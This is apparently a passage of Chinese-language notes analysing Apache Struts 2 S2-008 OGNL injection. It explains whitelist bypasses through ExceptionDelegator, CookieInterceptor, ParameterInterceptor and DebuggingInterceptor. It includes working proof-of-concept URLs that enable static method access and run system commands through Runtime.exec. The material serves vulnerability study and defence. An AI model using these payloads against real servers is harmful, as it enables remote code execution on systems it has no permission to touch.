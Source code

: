 ```text
acceptedParamNames = "[a-zA-Z0-9\.][()_']+";
```

但是在以下情况仍可以绕过上述限制执行任意 Java 代码：


#### Struts &lt;= 2.2.3 (ExceptionDelegator) {#struts-2-dot-2-dot-3--exceptiondelegator}

当 Struts 将一个参数值赋值给属性而产生异常时，该值会被作为 OGNL 表达式执行，比如
将一个字符串值赋值给一个整型属性


#### Struts &lt;= 2.3.1 (CookieInterceptor) {#struts-2-dot-3-dot-1--cookieinterceptor}

Struts 的白名单机制只应用在请求参数上，但 CookieInterceptor 中并没有使用，所以在
处理 cookie 项时可能导致 OGNL 注入，而且攻击者可以通过表达式将
allowStaticMethodAccess 设置为 true

大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这
个点比较鸡肋


#### Arbitrary File Overwrite in Struts &lt;= 2.3.1 (ParameterInterceptor) {#arbitrary-file-overwrite-in-struts-2-dot-3-dot-1--parameterinterceptor}

虽然 allowStaticMethodAccess 默认是关闭的，但攻击者仍然可以访问只有一个 String 参
数的公共构造方法和 setter 方法，所以仍然可能导致任意文件写入、覆盖


#### Struts &lt;= 2.3.17 (DebuggingInterceptor) {#struts-2-dot-3-dot-17--debugginginterceptor}

应用以开发者模式（developer mode）运行时 DebuggingInterceptor 类可能导致任意代码
执行，不过一般生产环境都不会开启 developer mode，除非是被人放的后门

poc:

```nil
# 无回显
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)

# 可回显
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27ipconfig%27%29.getInputStream%28%29%29)
```

以下是 DebuggingInterceptor#intercept 方法的关键部分，当 debug 参数是 command 时，
会取出 expression 参数，然后调用 OgnlValueStack#findValue
